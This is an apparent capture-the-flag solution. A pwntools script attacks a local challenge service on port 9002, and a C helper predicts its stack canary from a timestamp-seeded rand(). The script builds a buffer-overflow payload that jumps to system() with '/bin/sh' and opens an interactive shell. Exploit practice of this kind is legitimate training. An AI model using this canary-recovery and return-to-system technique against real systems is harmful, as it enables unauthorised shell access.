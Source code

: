 execute in localhost

```c
#!/usr/bin/env python
# coding=utf-8

from pwn import *
import time

system_addr = 0x08049187
gbuf_addr = 0x0804B0E0

r = remote("localhost", 9002)
# r = process("./hash")

time_stamp = int(time.time())

captcha = int(r.recvlines(2)[1].decode().split(": ")[1])

p = process(executable="./canary", argv=["./canary", str(time_stamp), str(captcha)])
canary = int(p.recvline().decode(), 16)

r.sendline(str(captcha).encode())

payload = b"k"*(512) + p32(canary) + b"k"*12 + p32(system_addr) + p32(gbuf_addr+1+716)
b64e_payload = b64e(payload)

r.sendlineafter(b"Encode your data with BASE64 then paste me!\n", b64e_payload + b"\x00"*1 + b"/bin/sh")

r.interactive()
```

canary.c: 

```C
#include <stdio.h>
#include <stdlib.h>

/*
Usage: ./[filename] [datestamp] [captcha]
Author: K2V
*/

int main(int argc, char* argv[]){
    if (argc<3){
      printf("Usage: ./[filename] [datestamp] [captcha]\n");
    }
    int datestamp = atoi(argv[1]);
    int captcha = atoi(argv[2]);
    srand(datestamp);

    int v2[8];
    for(int i = 0; i <= 7; ++i ){
        v2[i] = rand();
    }
    int canary = captcha -v2[4] + v2[6] - v2[7] - v2[2] + v2[3] - v2[1] - v2[5];
    printf("%x\n", canary);
    return 0;
}
```
